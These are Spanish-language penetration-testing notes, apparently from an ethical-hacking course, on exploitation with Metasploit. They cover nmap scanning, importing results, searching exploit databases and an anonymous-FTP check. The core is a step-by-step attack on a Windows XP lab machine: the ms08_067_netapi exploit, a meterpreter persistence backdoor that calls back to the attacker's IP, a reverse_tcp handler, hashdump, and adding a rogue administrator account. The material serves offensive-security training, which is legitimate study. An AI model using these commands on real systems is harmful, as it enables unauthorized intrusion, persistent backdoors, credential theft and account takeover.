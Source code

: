 # EXPLOTACION

## Metasploit

`service postgresql start`\
`netstat -antp`

`msfdb init`--> inicializar la base de datos

`msfconsole` --> iniciamos el framework Metasploit
       =[ metasploit v5.0.100-dev                         ]
+ -- --=[ 2046 exploits - 1107 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion  

## Páginas con mas exploits\
https://opendata.rapid7.com/ 

https://www.exploit-db.com/

https://en.0day.today/

`nmap 192.168.1.0/24 -A -v -oA cphe` --> escaneo grande verbose y la salida de datos a un fichero llamado cphe

importar archivo cphe en metasploit\
`hosts`\
`db_status`

`db_import cphe.xml` --> ojo con la ruta
hosts
services
services -p 21 --> muestar los puertos 21 abiertos
Checkear logins para probar pass/user por defecto

`searchsploit < version app >` --> busca en varios lugares

`search < version app >` --> busco en metasploit
~~~
use auxiliary/scanner/ftp/anonymous
show options
info
set RHOSTS 192.168.1.123 192.168.1.122
run
~~~

searchsploit tomcat --> buscar 

setg rhosts 192.68.1.123 192.168.1.122 --> La g es para guardar los host durante toda la sesion.

search <CVE code>

## Ataques automatizados
Nessus --> https://es-la.tenable.com/products/nessus/nessus-professional

## Ataque por fuerza bruta

### xHydra
Interfaz grafica, abajo a la izquierda pone el comando para terminal con las opciones configuradas


### Explotacion maquina XP dejando backdoor

`nmap 192.168.24.128 -v -Pn` --> 31337/tcp --> backdoor
~~~
search netapi
use exploit/windows/smb/ms08_067_netapi
show options
exploit
~~~

meterpreter > getuid --> AUTOHIRY 

meterpreter > run persistence -U -X -i 60 -p 4443 -r <nuestra ip> 

-U: conecta con el atacante cuando se inicia sesion en la victima
-X: intenta conectar cuando inicie/reinicie
-i: cada 60 segundos conecta 

background
search /multi/handler --> generico 
use exploit/multi/handler   
set payload windows/meterpreter/reverse_tcp
show options
set lport y lhost
exploit

Reiniciar el windows XP para confirmar que cuando inicie sesion se conecta automaticamente.
background
sessions
getuid
hashdump --> password cracking

shell
cd ..
cd ..
c:\> net user intruso pass1234 /add  --> añadir usuario
net localgroup administradores intruso /add --> añadir usuario al grupo administrador para tener permisos
rdesktop <ip windows>  --> echa a la victima si esta conectado






